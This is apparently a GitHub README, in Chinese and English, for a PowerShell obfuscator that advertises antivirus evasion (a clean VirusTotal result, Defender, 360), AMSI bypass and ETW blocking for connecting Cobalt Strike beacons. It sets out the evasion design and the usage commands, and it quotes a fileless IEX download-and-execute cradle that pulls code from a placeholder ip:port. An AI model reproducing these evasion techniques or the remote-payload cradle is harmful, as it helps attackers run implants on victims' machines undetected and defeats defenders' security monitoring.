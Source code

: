 # powershell-obfuscation

简单有效的powershell免杀混淆的小工具，VT全绿，可过Defender、360等，可执行上线cobaltstrike等操作。

AMSI混淆绕过+ETW混淆block+powershell命令混淆绕过。

**请勿使用于任何非法用途，由此产生的后果自行承担。**

上述测试环境均为实体机。

A simple and effective powershell obfuscaiton tool bypass Anti-Virus, VT.

AMSI-bypass obfuscation + ETW-block obfuscation + powershell command obfuscation.

**Please do not use it for any illegal purpose, and the consequences arising therefrom shall be borne by yourself.**

## 思路

这段时间看了看powershell反混淆相关的内容与论文，目前反混淆效果最好的应该是2022年qax的《Invoke-Deobfuscation: AST-Based and Semantics-Preserving Deobfuscation for PowerShell Scripts》，该论文延续了19年CCS浙大的思路并进行了改进，使用了变量追踪并在AST层面上进行了invoke解混淆，比defender和VT的效果好不少。

**不过论文中也提到了当前powershell反混淆研究的难点，一个是自定义function加密解不开，一个是很难去追踪循环中的变量。**

由于部分的反混淆工具会在AST层面上进行反混淆的工作，因此powershell自带的大部分加密解密/编码解码的函数是形同虚设的，如[System.Convert]::FromBase64String等。应该尽可能去使用自定义的加密解密的function。

这里针对这两个学术界研究的难点，写了一个简单的powershell混淆器，事实证明效果确实也不错。具体思路如下：

1、自定义加密解密function，function中进行字符串的逆序（逆序没有用powershell自带的函数，防止AST层面上解混淆）与字符的+-运算（不使用异或运算的原因是defender对-bxor监控很严格）。

2、对上述function进行几次循环的运算。

3、为了能让字符有效地输出，最后用base64编码了一下（即便在AST层面上解开也无所谓，因为解开了的内容仍是混淆之后的）。

同时对AMSI绕过与ETW block与powershell命令进行了混淆。

这里仅仅实现了一个简单的混淆器demo，可以自由发挥，后续要是有时间的话我会继续完善。

实验了一下，用qax的反混淆工具与Unit42团队的反混淆工具都是解不开的。

The tool with the best anti-obfuscation effect at present should be《Invoke-Deobfuscation: AST-Based and Semantics-Preserving Deobfuscation for PowerShell Scripts》. This paper uses variable tracking and invoke de-obfuscation at the AST level, the effect is much better than that of defender and VT.

**However, this paper also mentioned the difficulties of the current powershell anti-obfuscation research. One is that the custom function encryption cannot be de-obfuscated, and the other is that it is difficult to track the variables in the loop.**

Since some de-obfuscation tools de-obfuscates at the AST level, most of the encryption/encoding functions that come with powershell are useless, such as [System.Convert]::FromBase64String and so on. You should use custom encryption and decryption functions as much as possible.

Aiming at the difficulties of these the academic research, I wrote a simple powershell obfuscator, and it turns out that the result is really good. The specific ideas are as follows:

1. Customize the encryption and decryption function. In the function, reverse the string (reversing string does not use the function that comes with powershell to prevent de-confusing at the AST level) and the +- operation of characters (the reason why the XOR operation is not used here is that the defender monitors -bxor strictly).

2. Perform several loop operations on the encryption and decryption function.

3. In order to allow the characters to be effectively output, it is finally encoded with base64 (even if it is decoded at the AST level, it does not matter, because the decoded content is still obfuscated).

This tool implements AMSI-bypass obfuscation, ETW-block obfuscation and powershell command obfuscation.

## 使用的方法

```./powershell-obfuscation.ps1 -c "whoami"``` 来混淆命令 obfuscates command

```./powershell-obfuscation.ps1 -f "filename"``` 来混淆指定的文件（绝对路径） obfuscates specific file (absolute path)

结果会输出在当前目录下的bypass.ps1中

The result can be found in bypass.ps1.

以cs的beacon.ps1为例

Take beacon.ps1 as an example

**上线cs可以混淆beacon.ps1然后落地来执行，也可以直接混淆cs的iex下载一句话IEX ((new-object net.webclient).downloadstring('http://ip:port/a')来不落地执行。**

混淆前VT如下：

![1671255963304](https://user-images.githubusercontent.com/48757788/208227398-4b3abb77-bef6-4891-9798-31255c9557f8.png)

混淆后VT如下：

![1671255985878](https://user-images.githubusercontent.com/48757788/208227402-42d2cfce-9b19-4c69-b4b9-da2a4fc609f7.png)

上线：

![image](https://github.com/H4de5-7/powershell-obfuscation/blob/main/CS.png)
